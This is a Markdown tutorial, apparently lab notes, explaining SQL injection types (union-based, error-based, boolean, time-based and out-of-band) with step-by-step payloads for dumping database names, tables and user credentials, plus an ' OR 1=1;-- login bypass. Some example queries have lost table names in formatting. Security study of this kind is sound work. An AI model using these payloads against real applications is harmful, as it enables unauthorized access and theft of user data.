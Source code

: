 ## SQL Injection

SQL Injection is a type of attack on web applications where an attacker executes malicious queries that communicate between the backend server and the person injecting them. This can lead to the exposure of private customer data stored on the website. It is one of the oldest web application vulnerabilities and is still seen on several websites. It is also one of the most damaging web application vulnerabilities.

For performing SQL injection, you should have basic knowledge about SQL, such as commands to see tables and the data stored in them. The most common commands are:

- `select * from ;`
- `select username, password from ;`
- `select * from  where username='admin';`
- `select * from  where username like 'a%';`
- `delete from ;`

SQL injection can be broadly classified into three types:
- In-Band
- Blind
- Out-of-Band

### In-Band SQL Injection

In-Band SQL Injection is the easiest type to detect and exploit. "In-Band" means the same communication method is used for both exploiting the vulnerability and receiving the results. For example, after identifying an SQL Injection vulnerability on a webpage, you can extract data from the database and receive it on the same page.

#### Error-Based SQL Injection

This type is particularly useful for obtaining information about the database structure since error messages from the database are printed directly to the browser screen. These can often reveal information about the entire database.

#### Union-Based SQL Injection

This method uses the SQL `UNION` operator with a `SELECT` statement to return additional results to the page. It is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

To identify whether a web application has this vulnerability, modify the request by adding either a single quote `'` or a double quote `"` at the end of a header request and check the error that returns. If you get a syntax-related error, you know your input is talking to the backend and you can proceed to perform SQL injection.

There are several payloads that provide different information and can help when dealing with large databases that are too big to inspect with just basic commands.

#### Example Process

The first thing is to return data to the browser without displaying an error message by using the `UNION` operator:

1. Try the mock browser's `id` parameter as:
    ```
    1 UNION SELECT 1
    ```
    This should produce an error message about differing numbers of columns.

2. Try adding another column:
    ```
    1 UNION SELECT 1,2
    ```
    If you still get an error, add another column:
    ```
    1 UNION SELECT 1,2,3
    ```
    If the error message is gone and the page displays an article, you have the right number of columns.

3. To return just your data, force the first query to return no results, by changing the ID to 0:
    ```
    0 UNION SELECT 1,2,3
    ```
    Now you'll see the page displays the result from the UNION select, showing values 1, 2, and 3.

4. To get the database name:
    ```
    0 UNION SELECT 1,2,database()
    ```
    You'll see the database name where "3" was previously displayed.

5. To list the tables in this database:
    ```
    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
    ```
    - `group_concat()` combines column values into a comma-separated string.
    - `information_schema` is a special database containing metadata.

6. To get the structure of a specific table (`staff_users`):
    ```
    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
    ```

7. To list user information from the `staff_users` table:
    ```
    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '') FROM staff_users
    ```
    - The `` tag puts each result on a separate line for easier reading.

### Blind SQL Injection

Unlike In-Band SQL injection, Blind SQLi provides little or no feedback about whether your injected queries were successful. This is because error messages are disabled, but injection is still possible.

#### Authentication Bypass

A common blind SQL injection technique is bypassing authentication in login forms. Here, the attacker isn't interested in data retrieval but simply in getting past the login check.

For example, given this backend logic:
```
select * from users where username='%username%' and password='%password%' LIMIT 1;
```
Entering this into the password field:
```
' OR 1=1;--
```
Produces:
```
select * from users where username='' and password='' OR 1=1;
```
Since `1=1` is always true, the application will erroneously grant access.

#### Boolean-Based SQL Injection

Boolean-based SQL Injection relies on the application's behavior in response to true or false conditions. With only yes/no (or equivalent) feedback, an attacker can still enumerate the structure and contents of the database.

**Example:**

- The endpoint `https://website.thm/checkuser?username=admin` returns `{"taken":true}` if the username "admin" exists, and `{"taken":false}` otherwise.

- The SQL logic:
    ```
    select * from users where username='%username%' LIMIT 1;
    ```
- To discover the number of columns:
    ```
    admin123' UNION SELECT 1;--
    admin123' UNION SELECT 1,2,3;--
    ```
    When `taken=true`, you know you've matched the correct number of columns (here, 3 columns).

- To enumerate the database name:
    ```
    admin123' UNION SELECT 1,2,3 where database() like '%';--
    ```
    You then work through each character by iterating the like value, e.g., `'s%'`, to discover the name.

- The same process can enumerate tables, columns, users, and passwords by carefully adjusting payloads and interpreting true/false feedback.

#### Example Values (as found during enumeration):

- **Database:** sqli_four
- **Filename:** analytics
- **Username:** admin
- **Password:** 4961

### Time-Based Blind SQL Injection

Time-based blind SQLi is similar to boolean-based but with no visible feedback at all—only response time is used. This is achieved using SQL functions like `SLEEP(x)` in payloads.

For example, to determine the number of columns:
```
admin123' UNION SELECT SLEEP(5);--
admin123' UNION SELECT SLEEP(5),2;--
```
If the server response is delayed by 5 seconds, the injected query has been executed, and you know the number of columns that works.

To find a table name:
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```
The same enumeration logic from boolean-based SQL Injection applies.

### Out-of-Band SQL Injection

Out-of-Band (OOB) SQL Injection depends on specific features being enabled in the database or application logic where the server sends data to an external system controlled by the attacker.

The process:

1. The attacker sends a request to a vulnerable website with an injection payload.
2. The site makes a back-end SQL query that includes the attacker's payload.
3. The payload causes the site server to send HTTP/DNS requests to an external system controlled by the attacker, exporting the data.

*This page does not modify your original words but only fixes syntax errors and formats the instructions as a `.md` (Markdown) document for clear reading.*
